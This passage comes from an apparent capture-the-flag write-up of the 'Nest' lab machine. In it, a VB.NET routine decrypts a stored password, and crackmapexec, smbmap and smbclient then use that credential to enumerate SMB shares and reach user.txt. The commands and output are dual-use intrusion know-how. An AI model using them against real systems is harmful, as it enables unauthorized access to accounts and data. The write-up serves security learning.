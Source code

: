         Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)

        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)

        memoryStream.Close()
        cryptoStream.Close()

        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)

        Return plainText
      End Function

    End Module



When it runs, it prints: `xRxRxPANCAK3SxRxRx`.

### SMB Access

The password does work for SMB for C.Smith, but doesn't give admin or
code exec (no `(Pwn3d!)` message):



    root@kali# crackmapexec smb 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
    SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
    SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\C.Smith:xRxRxPANCAK3SxRxRx 



C.Smith has access to the same three shares:



    root@kali# smbmap -H 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
    [+] IP: 10.10.10.178:445        Name: 10.10.10.178                                      
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            Data                                                    READ ONLY
            IPC$                                                    NO ACCESS       Remote IPC
            Secure$                                                 READ ONLY
            Users                                                   READ ONLY



I can now access the `C.Smith` directory in `\\10.10.10.178\Users`, and
there's `user.txt`:



    root@kali# smbclient -U C.Smith //10.10.10.178/users xRxRxPANCAK3SxRxRx
    Try "help" to get a list of possible commands.
    smb: \C.Smith\> dir
      .                                   D        0  Sun Jan 26 02:21:44 2020
      ..                                  D        0  Sun Jan 26 02:21:44 2020
      HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
      user.txt                            A       32  Thu Aug  8 19:05:24 2019
